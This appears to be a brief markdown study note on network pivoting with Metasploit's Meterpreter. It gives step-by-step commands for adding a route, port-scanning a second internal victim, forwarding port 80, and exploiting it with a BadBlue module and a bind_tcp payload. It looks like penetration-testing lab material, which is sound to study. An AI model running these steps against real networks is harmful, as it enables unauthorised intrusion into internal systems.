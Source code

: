 # Pivoting with Meterpreter
Gaining access to a system on an internal network using a different machine you have access to.  

1. Copy the IP address of the victim interface
2. Add a route with meterpreter -- run autoroute -s (IP address subnet range, example 192.168.1.0)/subnet
3. Background meterpreter session
4. Use portscan module to scan for open ports on the target
   - Module: **auxiliary/scanner/portscan/tcp**
5. set RHOSTS to victim2
6. run

Forward port 80
1. Go to session 1
2. ```portfwd add -l 1234 -p 80 -r (victim 2 IP)```
3. Run db_nmap scan ```db_nmap -sS -sV -p 1234 localhost```

Exploiting
1. Use Badblue module
2. set payload to bind instead of reverse TCP -- ```windows/meterpreter/bind_tcp```
3. Set RHOSTS to Victim 2
4. update LPORT to a different port
